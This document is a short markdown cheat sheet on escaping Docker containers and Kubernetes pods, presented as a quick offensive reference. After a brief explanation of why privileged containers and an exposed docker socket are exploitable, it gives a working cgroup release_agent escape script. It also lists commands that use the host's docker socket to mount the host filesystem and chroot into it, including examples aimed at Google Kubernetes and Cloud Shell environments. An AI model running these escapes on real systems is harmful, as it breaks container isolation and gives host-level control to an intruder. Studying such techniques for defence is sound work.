 # Escaping docker

## Quick summary

Docker usually runs with root rights. Even when it's running within the docker group. The docker communicates with the containers through a unix socket.

Docker in docker is fairly common. To do this the host's docker socket has to be mounted in the docker container (there are other ways, but this is the most common one).  Used in e.g. Portainer.

The `--privileged` flag exploit relies on relaunching a docker container with this flag. When using this flag, containers have full access to all devices and lack restrictions from sccomp, AppArmor and Linux capabilities

But the `--privileged` flag is overkill, the only needed requirements are:

- Have root in container

- Container must be run with the `SYS_ADMIN`  Linux capability

- Container  must lack AppArmor profile, or otherwise allow the `mount` syscall

- The cgroup v1 virtual filesystem mst be mounted read-write inside the container

By default, docker starts with restricted set of capabilities (doesnt include SYS_ADMIN), and default AppArmor profile is `docker-default`, which prevents the mount syscall.

Default unix socket:

    /var/run/docker.sock

## Quick and dirty way to get out of a privileged k8s pod or docker container

Using cgroups release_agent feature:

```bash
docker run -it --privileged busybox /bin/sh / # echo {payload} | base64 -d > undock.sh
```

Where payload is the following text, base64 encoded:

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

## Example escape from google k8s

The host is mounted in the container at /host/google/docker/run

```bash
sudo docker -H unix://<docker socket> pull alpine:latest
sudo docker -H unix://<docker socket> run \
    -d \
    -it \
    --name <containername> \
    -v "/proc:/host/proc" \
    -v "/sys:/host/sys" \
    -v "/:/rootfs" \
    --network=host \
    --privileged=true
    --cap-add=ALL
    alpine:latest
sudo docker -H unix://<socket socket> start <containername>
sudo docker -H unix://<socker socket> exec -it <containername> /bin/sh
chroot /rootfs
# You are now in a container with a lot more privileges
docker ps #(will list all docker containers on host)
```

Example - escape docker cloud shell to host OS

```bash
sudodocker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host/bin/bash
```

Sources:

- https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

- 
